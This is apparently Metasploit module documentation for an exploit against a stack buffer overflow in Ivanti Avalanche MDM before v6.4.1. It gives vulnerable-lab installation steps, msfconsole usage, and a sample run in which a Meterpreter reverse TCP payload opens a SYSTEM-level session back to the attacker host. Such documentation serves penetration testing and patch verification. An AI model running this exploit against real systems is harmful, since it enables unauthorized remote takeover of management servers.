 ## Vulnerable Application

Ivanti Avalanche powered by Wavelink is a mobile device management system. Network security
features allow you to manage wireless settings (including encryption and authentication),
and apply those settings on a schedule throughout the network. Software distribution features
allow you to schedule software distribution to specific devices from the Avalanche Console.
Avalanche also provides tools for managing alerts and reports.

This module exploits a buffer overflow condition in Ivanti Avalanche MDM versions before `v6.4.1`.
An attacker can send a specially crafted message to the Wavelink Avalanche Manager,
which could result in arbitrary code execution with the `NT/AUTHORITY SYSTEM` permissions.
This vulnerability occurs during the processing of 3/5/8/100/101/102 item data types.
The program tries to copy the item data using `qmemcopy` to a fixed size data buffer on stack.
Upon successful exploitation the attacker gains full access to the target system.

The original analysis and the vulnerability discovery is done by the Tenable.
Check [here](https://www.tenable.com/security/research/tra-2023-27) for public advisory.

## Installation
The software requires a version of MSSQL Server to be installed. The installation
instructions use MSSQL Server 2012, but 2016 and 2017 worked for my setup. Ensure that
`SQL Server and Windows Authentication Mode` is selected as the default for
server authentication. This can either be done at installation or via
SQL Server Management Studio, available from https://learn.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms.

1. Open SQL Server Management Studio and connect to the instance
2. Right click on the instance and select `Properties`
3. Click the `Security` page
4. Underneath `Server Authentication`, select `SQL Server and Windows Authentication Mode` and `Ok`.
5. Open SQL Server Configuration Manager -> SQL Server Network Configuration -> Protocols for MSSQLSERVER -> TCP/IP
Change from Disable to Enabled.
6. SQL Server Configuration Manager -> SQL Server Services -> Stop all Services -> Start just the SQL Server (MSSQLSERVER) service.
7. Go back to SQL Server Management Studio.
8. Security -> Logins -> sa -> Right click -> Select Properties -> Status -> Toggle Login to Enabled -> Ok
9. Execute the following SQL statement in SQL Server Management Studio: `ALTER LOGIN sa WITH PASSWORD = 'theSAUser123';`
10. You should now be able to run the installer and set the hostname to `127.0.0.1`,
set the username to `sa`, and the password to `theSAUser123`.
11. Now you can proceed to installing the Ivanti Avalanche MDM software.

For installing the vulnerable Ivanti Avalanche MDM version follow the steps below,
1. To obtain the vulnerable versions of the MDM setup, first create a customer account at
[Ivanti](https://success.ivanti.com/customers/Community_RegStep1_Page?lp=register) (trial license is sufficient)
2. Navigate [here](https://www.wavelink.com/Download-Avalanche_Mobile-Device-Management-Software/)
and download any version **below** `v6.4.1`
3. Follow the installation steps.

After these steps, the MDM service should be accessible on port 1777.
**Note: If MDM port is not listening or unresponsive, try restarting the 'Wavelink Avalanche Manager' service.**

In case the above doesn't work, instructions for installing Ivanti Avalanche can be found
[here](https://forums.ivanti.com/s/article/Best-Known-Method-for-installing-Avalanche-6-x-using-MSSQL-Server-2008-R2-Express-DB-or-2012-Express-Advanced)

## Verification Steps

1. msfconsole
2. Do: `use exploit/windows/misc/ivanti_avalanche_mdm_bof`
3. Do: `set RHOST [IP]`
4. Do: `run`
5. You should get a session.

## Options

## Scenarios

```
msf6 > use exploit/windows/misc/ivanti_avalanche_mdm_bof
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/ivanti_avalanche_mdm_bof) > set rhosts 192.168.56.109
rhosts => 192.168.56.109
msf6 exploit(windows/misc/ivanti_avalanche_mdm_bof) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(windows/misc/ivanti_avalanche_mdm_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] 192.168.56.109:1777 - Connecting to target...
[*] 192.168.56.109:1777 - Sending payload...
[*] Sending stage (175686 bytes) to 192.168.56.109
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.109:49967) at 2023-08-25 19:15:42 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >

```

